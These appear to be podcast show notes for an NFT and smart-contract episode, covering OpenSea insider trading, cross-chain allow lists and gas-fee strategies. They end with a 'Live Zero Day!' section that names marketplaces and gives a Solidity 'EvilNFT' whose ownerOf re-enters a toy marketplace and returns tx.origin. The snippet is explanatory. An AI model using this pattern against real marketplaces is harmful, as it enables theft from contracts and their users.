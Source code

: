 ```yaml
---
posted: true
guid: "B08380FC-F902-47CF-9EF7-4F10CDB64671"
title: "Evil ownerOf"
subtitle: ""
description: "We talk about OpenSea insider trading charge, facts, legal analysis, allow list to your (testnet) beta testers, beer of the day, make your own bridge (simple, insecure), drops with random timing, cross chain minting by centralizing, and Evil ownerOf."
start-time: "2022-06-07T18:00:00-05:00"
itunes-explicit: false
itunes-episode: 27
itunes-episodeType: full
# More info
youtube-full: https://youtu.be/_RVWOU8dOM4
discussion: https://twitter.com/fulldecent/status/1534317390971998209
timeline:
  - seconds: 67
    title: OpenSea insider trading charge, facts
  - seconds: 141
    title: Legal analysis
  - seconds: 402
    title: Give allow list to your (testnet) beta testers
  - seconds: 543
    title: Beer of the day
  - seconds: 552
    title: Make your own bridge (simple, insecure)
  - seconds: 711
    title: Drops with random timing!
  - seconds: 786
    title: Cross chain minting by centralizing
  - seconds: 905
    title: Evil ownerOf
# File information
enclosure-url: "https://media.phor.net/csh/2022-06-07-episode-27.m4a"
enclosure-length: 24674153
enclosure-type: "audio/x-m4a"
itunes-duration: 1224
participants: []
---
```


<!--end of quick notes-->

- OpenSea insider trading
  - https://www.justice.gov/usao-sdny/pr/former-employee-nft-marketplace-charged-first-ever-digital-asset-insider-trading-scheme
  - https://www.bloomberg.com/opinion/articles/2022-06-02/don-t-insider-trade-nfts#xj4y7vzkg
- @037 If you wanted to do an airdrop of coins to only a set of wallets that participated on another contract in a dev chain (example: Rinkeby), is there a way to do cross-chain verification using an arbitrary block height? (example: give 10 coins from Contact "A" in Mainnet if Wallet "A" interacted with Contract "B" on Rinkeby before block height "X"). This is to promote mass beta testing to hopefully catch bugs before live deploy.…
  - Option A – Bridge
    - Use Rinkeby to make a separate contract and use a bridge to send those tokens to the other chain.
  - Option B – “get hands dirty”
    - Rinkeby allowlist contract
      - Function isAllowlisted emits logs, not a view function, in other words ONE transaction results in MULTIPLE allow list validations
    - On Mainnet validate these logs
      - Validate multiple consecutive blocks, with difficulty, using parent block and difficulty, this only works with proof of work
      - Validate specific transaction using inclusion Merkle proof
      - Validate and the transaction receipt (see [Yellow Paper BERLIN](https://ethereum.github.io/yellowpaper/paper.pdf), page 6, transaction receipt data structure) to confirm the logs were emitted
      - Optional: add a time limit to this redeemability (using block.timestamp)
  - Option C – Centralize
    - Time public time limits / redeem periods / for accountability
    - After that happens, everybody can see it and run the tool, copy this: https://github.com/su-squares/update-script and https://github.com/miguelmota/merkletreejs-nft-whitelist
- Addressing gas fees
  - Bonding curves
  - Dutch auctions
- Live Zero Day!
  - Affected marketplaces are potentially 2018 smart contracts that allow selling any NFT, and have a balance of value (not just allowlisted ones)
    - OpenSea
    - Rarebits
    - Superrare
    - Niftygateway

```solidity
// SPDX-License-Identifier: UNLICENED
pragma solidity 0.5.0;

interface NFT {
  function ownerOf(uint256) external view returns (address);
}

contract EvilNFT {
  Marketplace public marketplace;

  function setMarketplace(Marketplace marketplace_) external {
    marketplace = marketplace_;
  }

  function ownerOf(uint256) external returns (address) {
    marketplace.reprice();
    return address(tx.origin);
  }
}

contract Marketplace {
  uint256 public price = 0;

  function reprice() external {
    price++;
  }

  function doSomething(NFT nft, uint256 tokenID) external {
    // collect money from msg.sender
    require(nft.ownerOf(tokenID) == msg.sender);
    // check price
    // send money to DAO
  }
}
```

- Bankless got blocked on YouTube
  - CEO tweeted sorry!